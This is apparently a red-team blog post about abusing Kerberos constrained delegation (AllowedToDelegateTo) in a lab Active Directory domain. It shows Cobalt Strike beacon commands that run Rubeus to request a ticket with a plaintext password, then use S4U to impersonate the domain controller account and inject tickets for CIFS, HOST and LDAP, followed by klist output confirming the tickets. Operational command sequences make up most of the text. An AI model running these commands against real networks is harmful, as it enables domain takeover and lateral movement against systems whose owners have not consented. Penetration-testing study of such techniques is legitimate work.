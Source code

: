 ```yaml
---
title: AllowedToDelegate
date: 2024-11-27 19:37:00 +/-TTTT
categories: [beacon, bypass-AV/EDR]
tags: [AllowedToDelegate, Rubeus]     # TAG names should always be lowercase
---
```


![img-description](/assets/images/IMG_0042.png)

In modern red teaming and penetration testing, understanding the intricacies of Active Directory (AD) permissions is essential for successful lateral movement and privilege escalation. One powerful feature that can be exploited in an AD environment is the "AllowedToDelegateTo" attribute. This attribute plays a critical role in defining which services a user or computer account is allowed to delegate user credentials to, and it can be a potential attack vector if misconfigured.

In this post, we'll explore how to leverage Cobalt Strike in conjunction with the "AllowedToDelegateTo" attribute to gain access to sensitive systems and escalate privileges. By understanding and exploiting these delegation settings, we can enhance our penetration testing strategies and identify misconfigurations that could lead to critical security vulnerabilities.

![img-description](/assets/images/WhatsApp Image 2024-11-28 at 06.22.01.jpeg)

    [11/27 22:14:00] beacon> execute-assembly /home/elliot/tools/Rubeus.exe asktgt /user:blake /password:Password123! /domain:painters.htb /outfile:ticket.kirbi

![img-description](/assets/images/WhatsApp Image 2024-11-28 at 06.25.09.jpeg)

    [11/27 22:27:07] beacon> execute-assembly /home/elliot/tools/Rubeus.exe s4u /ticket:ticket.kirbi /msdsspn:cifs/dc.painters.htb /impersonateuser:DC$ /domain:painters.htb /altservice:CIFS,HOST,LDAP /ptt

its need to be say 

    [+] Ticket successfully imported!

now we can abuse next host. (btw dont reccomend powershell <command> but there is no way to check it then do less ASAP)

    [10/10 10:19:20] beacon> powershell klist
    [10/10 10:19:20] [*] Tasked beacon to run: klist
    [10/10 10:19:27] [+] host called home, sent: 79 bytes
    [10/10 10:19:28] [+] received output:

    Current LogonId is 0:0x3ce665

    Cached Tickets: (3)

    #0>	Client: DC$ @ PAINTERS.HTB
        Server: LDAP/dc.painters.htb @ PAINTERS.HTB
        KerbTicket Encryption Type: AES-256-CTS-HMAC-SHA1-96
        Ticket Flags 0x40a50000 -> forwardable renewable pre_authent ok_as_delegate name_canonicalize 
        Start Time: 10/10/2024 15:18:55 (local)
        End Time:   10/11/2024 1:16:49 (local)
        Renew Time: 10/17/2024 15:16:49 (local)
        Session Key Type: AES-128-CTS-HMAC-SHA1-96
        Cache Flags: 0 
        Kdc Called: 

    #1>	Client: DC$ @ PAINTERS.HTB
        Server: HOST/dc.painters.htb @ PAINTERS.HTB
        KerbTicket Encryption Type: AES-256-CTS-HMAC-SHA1-96
        Ticket Flags 0x40a50000 -> forwardable renewable pre_authent ok_as_delegate name_canonicalize 
        Start Time: 10/10/2024 15:18:55 (local)
        End Time:   10/11/2024 1:16:49 (local)
        Renew Time: 10/17/2024 15:16:49 (local)
        Session Key Type: AES-128-CTS-HMAC-SHA1-96
        Cache Flags: 0 
        Kdc Called: 

    #2>	Client: DC$ @ PAINTERS.HTB
        Server: CIFS/dc.painters.htb @ PAINTERS.HTB
        KerbTicket Encryption Type: AES-256-CTS-HMAC-SHA1-96
        Ticket Flags 0x40a50000 -> forwardable renewable pre_authent ok_as_delegate name_canonicalize 
        Start Time: 10/10/2024 15:18:55 (local)
        End Time:   10/11/2024 1:16:49 (local)
        Renew Time: 10/17/2024 15:16:49 (local)
        Session Key Type: AES-128-CTS-HMAC-SHA1-96
        Cache Flags: 0 
        Kdc Called: